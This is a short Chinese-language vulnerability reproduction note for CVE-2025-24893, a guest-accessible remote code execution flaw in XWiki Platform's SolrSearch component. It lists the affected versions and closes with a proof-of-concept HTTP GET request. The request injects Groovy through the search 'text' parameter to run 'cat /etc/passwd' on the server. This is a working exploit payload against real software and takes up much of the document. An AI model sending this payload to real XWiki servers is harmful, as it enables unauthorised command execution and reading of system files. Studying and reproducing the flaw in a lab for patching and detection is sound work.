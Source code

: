 XWiki Platform是XWiki开源的一套用于创建Web协作应用程序的Wiki平台。

XWiki Platform存在安全漏洞，该漏洞源于任何来宾用户都可以通过对SolrSearch的请求，造成远程代码执行。CVE-2025-24893是针对XWiki平台SolrSearchMacros组件的远程代码执行漏洞（RCE），该漏洞源于对用户输入数据的未充分过滤，攻击者可利用Solr查询参数注入恶意代码，通过服务端模板引擎（如Velocity或Groovy）触发命令执行。



**0x02影响版本**



16.0.0-rc-1<=org.xwiki.platform:xwiki-platform-search-solr-ui<16.4.1

5.3-milestone-2<=org.xwiki.platform:xwiki-platform-search-solr-ui<15.10.11

**漏洞复现**

1.访问漏洞环境

2.对漏洞进行复现

 **POC** 

漏洞复现



```
GET /bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d%20 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

```